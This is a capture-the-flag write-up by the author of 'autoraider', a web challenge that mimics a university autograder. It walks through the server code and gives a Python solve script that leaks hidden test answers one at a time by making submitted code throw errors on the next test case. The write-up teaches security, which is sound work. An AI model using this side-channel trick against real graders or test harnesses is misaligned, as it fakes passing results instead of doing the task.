




# WolvSec Security Conference 2022 - `web/autoraider`

- [Challenge Description](#Challenge-Description)
- [Solution Summary](#Solution-Summary)
- [Challenge Analysis](#Challenge-Analysis)
- [Solution Walkthrough](#Solution-Walkthrough)
- [Solve Script](#Solve-Script)

This is my writeup for Autoraider, a web challenge I wrote for the 2022 WolvSec Security Conference. It is inspired by 
[autograder.io](https://autograder.io/), a website used in EECS classes at the University of Michigan to automatically grade project code.

## Challenge Description
My EECS 982 project is due tonight, and I haven't started it! Can you help me out?

## Solution Summary
Leak the result of a given test by having your code throw an error when the autograder tests the next input. If an error is thrown, than the guess was correct. If an error was not thrown, than the guess was incorrect.

## Challenge Analysis

### The Website

The website features a fake project for a fake EECS class. It instructs the user to "read the project spec", "submit to the autograder", and "get the flag".

The project spec pages contains the following.

> There has been a lot of cutting edge research going on around using computers to read minds! You will be applying these techniques to read my mind by providing the answers to some yes/no questions about a given person in the world. Should be easy!
> 
> This project will be written entirely in Javascript and will be submitted via text.
>
> Download the starter code.
>
> Your code should correctly implement the oracle(personId, questionNumber) function. This function shall return the answer to the question indexed by questionNumber for the person indexed by personIndex. People on Earth are indexed by birth date, where personIndex = 0 has the earliest birth date. Return the boolean true if the answer is "yes" and false if the answer is no. If personId is greater than 7754000, then the person has not been born yet and you should return false. Each question is associated with a question number (starting at 0).

Downloading the starter code provides the following:

```javascript
// REQUIRES: 
//      question_number and personId are integers
//      0 <= question_number < 30
// MODIFIES: nothing
// EFFECTS: invokes an oracle and returns the correct answer to
//      the question indexed by question_number for the person identified by personId
//      a return value of true indicates yes, and a return value of false
//      indicates no
//      if personId > 7754000, should return false
//
// Hint 1: apply the Cosmic Computation (CC) paradigm
// Hint 2: consider the core principles of Tarot readings
// Hint 3: try to traverse by pointer
function oracle(personId, questionNumber) {
    return false;
}
```

So it seems that for this "project" we need to write code that computes the answers to arbitrary yes/no questions about some person in the world. Obviously this is not possible, so the challenge will be to exploit the autograder in order to get the flag.

The autograder page greets the user with a text box and some information.



Copy-pasting and submitting the starter code is a good sanity check to ensure the autograder works as intended before diving into the source. Doing so should redirect the user to the submission page.



At this point they may either choose to grade that submission or submit again.

If the code threw an error than an error message is returned instead.



If the user chooses to grade their submission, they will be granted the flag if the submission is correct. Otherwise, they receive a message stating that they failed and that the correct answers have been shuffled.

### Answer Generation

Whenever the client makes a request to the server and the client's session has no `answers` value, correct answers will be generated with the following function.

```javascript
function generateAnswers() {
    answers = {
        'person': Math.floor(Math.random() * 7753000), // Random person in the world
        'responses': []
    };
    for(let i = 0; i < NUM_QUESTIONS; i++) {
        answers.responses.push(Math.random() > 0.5);
    }
    return answers;
}
```

This generates a random `personId`. It also generates random `true` or `false` correct responses. `30` of these responses are generated, corresponding to the question numbers `0` through `29`. This information is then stored in the client's session.

### Code Upload `/upload`

The upload endpoint first stores our code in an endpoint and sets up a VM to run it using `vm2`.

```javascript
let code = req.body.code;

const vm = new VM({
    timeout: 50,
    allowAsync: false
});
```

Note that the VM has a timeout of 50 milliseconds and blocks async calls. So submitted code must run quickly and synchronously.

The test cases are now generated. The test cases are generated sequentially based on the correct answers stored in the user's session. The question numbers go from `0` to `29` in increasing order. A final test case, called the "edge case", is also generated at the end. Note that the correct answer of this test case is hardcoded to `false`.

```javascript
// Test for correct responses for given person
// Correct answers retrieved from user session
const person = req.session.answers.person;
const responses = req.session.answers.responses;
let testCases = responses.map((response, i) => { 
    return {'person': person, 'questionNumber': i, 'correct': response}
});
// Add edge case
testCases.push(
    {'person': 9999999999, 'questionNumber': 0, 'correct': false}
)
```

We now loop through the test cases in the order they were generated. The code is tested through the function `testCode`. If the code results in an error, an message error is returned to the client. If the code does not error but returns the incorrect answer, the testing finishes and the server redirects to the `submission.html` page. If the code returns the correct answer, the testing continues.

If the `for` loop completes without returning (no errors or incorrect answers) the `pass` variable is updated to `true` in the session, and the server redirects to the `submission.html` page.

```javascript
// Go through each test case
for(i in testCases) {
    const testCase = testCases[i];
    const result = testCode(vm, code, testCase.person, testCase.questionNumber, testCase.correct);
    if(result.error) {
        req.session.pass = false;
        res.send(result.message);
        return;
    } else if(!result.pass) {
        req.session.pass = false;
        res.redirect('submission.html');
        return;
    }
}
req.session.pass = true;
res.redirect('submission.html');
```

The `testCode` function runs the user submitted code in the VM. It calls the `oracle` function with the parameters `person` and `questionNumber`. If `vm.run` returns an error, an error message is returned. Otherwise, the return value of `vm.run` is compared to the correct answer.

```javascript
function testCode(vm, code, person, questionNumber, correct) {
    ret = {
        message: '',
        error: false,
        pass: true
    };
    try {
        const result = vm.run(`oracle(${person}, ${questionNumber});${code}`);
        if(typeof result !== 'boolean' || result !== correct) {
            ret.pass = false;
        }
    } catch {
        ret.message = 'Code threw error! Please resubmit!';
        ret.error = true;
        ret.pass = false;
    }
    return ret;
}
```

### Grading Code `/grade`

This endpoint returns the flag if the `pass` session variable is `true`. Otherwise, it shuffles the correct answers.

So, if the latest submission to `/submit` passed, the flag is returned.

```javascript
if(req.session.pass || false) {
    res.send('Tests passed! Here is the flag: ' + FLAG);
} else {
    req.session.answers = generateAnswers();
    res.send('Tests failed. Correct answers have been changed!');
}
```

## Solution Walkthrough

### The Possibilities

Answer generation uses `Math.random()`. It seems like this generation is done correctly, and the generation always occurs when the session has no correct answers. There are 30 questions each with 2 possible answers, so there are 2^30=1073741824 possible combinations of answers. So brute forcing does not seem plausible.

The primary attack vector of this challenge appears to be the code submission. We have control over exactly what code we submit, and we can submit as many times as we want before trying to reveal the flag.

The autograder uses the `vm2` library to run code. Reading through the [vm2 docs](https://github.com/patriksimek/vm2), it appears that the `VM` object is very secure and has no access to any of the resources in `node`. So it is unlikely that we will be able to break out of the VM and access the `FLAG` environment variable or global variable.

So, it seems that the only way to solve this challenge is to submit code that results in the `pass` session variable being set to `true`.

The `for` loop that runs through the test cases seems to always set `pass` to `false` unless all of the test cases truly pass. The function that checks if our code returns the correct answer also seems to be implemented properly. So there likely is no way to get `pass` to be `true` without actually knowing the correct answers and submitting code that returns them for each `questionNumber`.

### An Idea

So how could we possibly know the correct answers? One key observation is that we can submit as many times as we want before attempting to reveal the flag. So there may a way to submit code that allows us to learn something about the correct answers.

### An Observation

Let's look back at the main `for` loop that tests our code. The loop tests the function in our code on each test case one by one. If **any** of the test cases fail, then the autograder stops testing our code. Additionally, if any of the tests throws an error, the autograder sends an error message to the client. We could exploit these two features of the autograder in order to determine if a given test case passed or failed.

### The Solution

Let's say we have our code return `false` for when `questionNumber == 0`. The correct answer may be either `true` or `false`; we are just guessing that it is `false`. If our guess is correct, then the test will pass and the autograder will continue and test our code for question `1`. If our guess is incorrect, then the test will fail, the autograder will stop, and the server will return "Submitted" to the client.

This is where the exploit comes in. We can have our code throw an error (either by `throw` or returning an undefined variable) for when `questionNumber == 1`. So, if our guess was correct, the autograder will run our error code and return "Code throw error!" to the client. If our guess was incorrect, the autograder will stop and return "Submitted" to the client. So, we can use the output to determine if our guess for the answer to question `0` was correct or not!

Ironically, an error indicates that our guess was correct, and a successful submission indicates our guess was wrong.

We can then repeat this process to figure out the answer to each question. For example, let's say we know the correct answers for questions `0` to `9` (inclusive), and are trying to figure out the correct answer to question `10`. Then our code should return the correct answers for `0` to `9`, return a guess of `false` for question `10`, and then return an error on question `11`.

This is a visualization of what happens when the autograder tests our code, depending on if our guess of `false` for question `10` was correct or not.



This will work until the last question, question `29`. It seems that there is no way to figure out the output to this question, since there is no question `30` to have return an error. Simply guessing is a viable strategy, since there is a 50/50 chance of guessing correct. However, remember that the autograder runs one more test case after question `29`: the "edge case" test, where a large `personId` is passed and the correct answer is always `false`. So, we can have our code throw an error for this edge, and use that to figure out if our guess to question `29` is correct using the same method as before.

Finally, we know from the project spec and source that the answer to the final test case (the "edge case") is always `false`, so we do not need to figure out the answer.

Once we figure out all of the answers, we can submit code that simply returns the correct answer for each `questionNumber` and the edge case. This code should pass all the test cases, so then we can make a request to the `/grade` endpoint and get the flag!

## Solve Script

The number of questions (30) was chosen such that manually figuring out each answer was not too unreasonable, but writing a solve script was desirable to save time. This is my solve script written in Python that accomplishes the solution process outlined above.

```python
import requests

url_base = 'https://autoraider-bvel4oasra-uc.a.run.app/'

# Set up a session since the correct answers and pass status are stored in a session
s = requests.Session()

# Uploads code to the autograder
def upload_code(code):
    return s.post(url_base + 'upload', {'code': code}).text

# Converts list of answers to a Javascript array string
def make_answer_str(answers):
    return '[' + ','.join(answers) + ']';

answers = []
# Do from question 0 to question 28
for i in range(29):
    answers_str = make_answer_str(answers);
    # Construct code submission
    #   Returns correct answer for known answers
    #   Returns guess of false for question i
    #   Creates an error for question i+1 (returns an undefined variable)
    code = 'function oracle(p,q) { answers = ' + answers_str + '; if(q < answers.length) { return answers[q] } else if(q === answers.length) { return false } else { return a } }';
    res = upload_code(code);
    # If grader reached our error, our assumption that the last answer was false is correct
    # Otherwise, the last answer was actually true
    answers.append('false' if 'error' in res else 'true');

# Use edge case (which we know the answer to) to figure out question 29
#   Returns correct answer for known answers
#   Returns guess of false for question 29
#   Creates an error for edge case (returns an undefined variable)
answers_str = make_answer_str(answers);
res = upload_code('function oracle(p,q) { answers = ' + answers_str + '; if(p > 7754000) { return a } else if(q < answers.length) { return answers[q] } else { return false } }');
answers.append('false' if 'error' in res else 'true');

# Upload solution
answers_str = make_answer_str(answers);
upload_code('function oracle(p,q) { answers = ' + answers_str + '; if(p > 7754000) { return false } else { return answers[q] } }');

# Grade and print response
print(s.get(url_base + 'grade').text)
```